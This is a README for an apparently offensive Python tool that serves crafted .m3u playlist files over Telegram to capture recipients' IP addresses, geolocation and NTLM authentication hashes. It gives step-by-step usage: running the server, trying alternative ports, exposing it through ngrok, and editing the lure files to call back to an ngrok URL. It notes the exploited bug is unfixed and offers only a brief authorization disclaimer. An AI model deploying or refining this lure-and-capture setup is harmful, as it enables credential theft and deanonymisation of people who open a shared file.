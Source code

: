 # IP and NTLM Hash Detection Tool using M3U file

A Python-based tool designed to capture IP addresses and NTLM authentication hashes from remote Windows clients using Telegram (lack of blocking the file extension .m3u), primarily for security testing and educational purposes.

Credits to: https://x.com/0x6rss/status/1906070098764538201/photo/1 and https://www.facebook.com/share/p/16Q8pGYLqJ/

As of 31/03/2025 - this simple bug it's NOT fixed yet.

## Demonstration

![M3U Exploit Demonstration](m3u.png)

For a detailed video walkthrough of the tool in action, see [ipltlm.mp4](ipltlm.mp4)

## Overview

This tool sets up an HTTP server that:
1. Logs client IP addresses and connection details
2. Attempts to capture NTLM authentication hashes when clients connect
3. Provides a client-side JavaScript mechanism to detect and report public IP addresses
4. Generates .m3u files that can trigger connections when opened in media players

## Features

- **IP Address Logging**: Records client IP addresses, ports, and connection details
- **NTLM Hash Capture**: Requests NTLM authentication and logs any hash responses
- **Public IP Detection**: Uses client-side JavaScript to detect and report real public IP addresses
- **Geolocation**: Identifies the geographic location of captured IP addresses
- **Network Diagnostics**: Performs connectivity tests to ensure the server is publicly accessible
- **Alternative Port Support**: Can automatically try alternative ports if the primary port is unavailable

## Prerequisites

- Python 3.6 or higher
- Internet connectivity
- Open port access (firewall/router configuration may be required)

## Installation

1. Clone the repository or download the script
2. Install the required dependencies:

```bash
pip install -r requirements.txt
```

## Usage

### Basic Usage

Run the script with default settings:

```bash
python ipntlmhash.py
```

This will start the server on port 8001 and automatically detect your IP address.

### Advanced Usage

```bash
# Specify a custom IP address and port
python ipntlmhash.py --ip 192.168.1.100 --port 8080

# Try alternative ports if the main port fails
python ipntlmhash.py --alt-ports
```

### Command-line Options

- `--ip`: Specify the server IP address (default: auto-detect)
- `--port`: Specify the port to listen on (default: 8001)
- `--alt-ports`: Automatically try alternative ports (80, 443, 8080, 8000) if the primary port fails

## Using with Ngrok (Recommended)

For easier public accessibility, especially if you're behind NAT or a firewall, use ngrok:

1. Download and install ngrok from [https://ngrok.com/download](https://ngrok.com/download)
2. Start the script normally:
   ```bash
   python ipntlmhash.py
   ```
3. In a separate terminal, start ngrok pointing to your local server port:
   ```bash
   ngrok http 8001
   ```
4. Ngrok will provide a public URL (like `https://a1b2c3d4.ngrok.io`)
5. Manually edit the generated .m3u files to use this ngrok URL instead of your IP:
   ```
   # Edit ntlmv2_hash.m3u to contain:
   https://a1b2c3d4.ngrok.io/somefile.mp3
   
   # Edit ip_detect.m3u to contain:
   https://a1b2c3d4.ngrok.io/ip
   ```

## How It Works

1. The server listens for incoming connections on the specified port
2. When a client connects, the server logs the IP address and port
3. The server attempts to initiate NTLM authentication with the client
4. If the client responds with NTLM authentication data, the server logs it
5. The `/ip` endpoint serves a page with JavaScript that detects the client's public IP
6. The client can report back its public IP using the JavaScript-based detection

## Output Files

- `ip_log.txt`: Contains logs of all client connections and reported public IPs
- `ntlm_log.txt`: Contains captured NTLM authentication data
- `ipltlmhash.m3u`: M3U file that tries to capture both IP and NTLM hash when opened
- `ip_detect.m3u`: M3U file that directs clients to the IP detection page

## Limitations

1. NTLM hash capture depends on the client's system attempting NTLM authentication
2. Server accessibility requires proper network/firewall configuration
3. The tool doesn't fully process the NTLM handshake; it only captures the hash data
4. Public IP detection requires JavaScript to be enabled in the client's browser

## Security Note

This tool is designed for educational purposes and security testing with proper authorization. Unauthorized use of this tool against systems you don't own or have permission to test may violate laws and regulations.

## Troubleshooting

If you're having trouble with connectivity:

1. Ensure your firewall allows incoming connections on the server port
2. If behind a router, set up port forwarding to your machine
3. Use the ngrok method described above for reliable public access
4. Check the "Network Configuration Check" and "Server Accessibility Test" sections in the tool output

## License

[MIT License](LICENSE) 
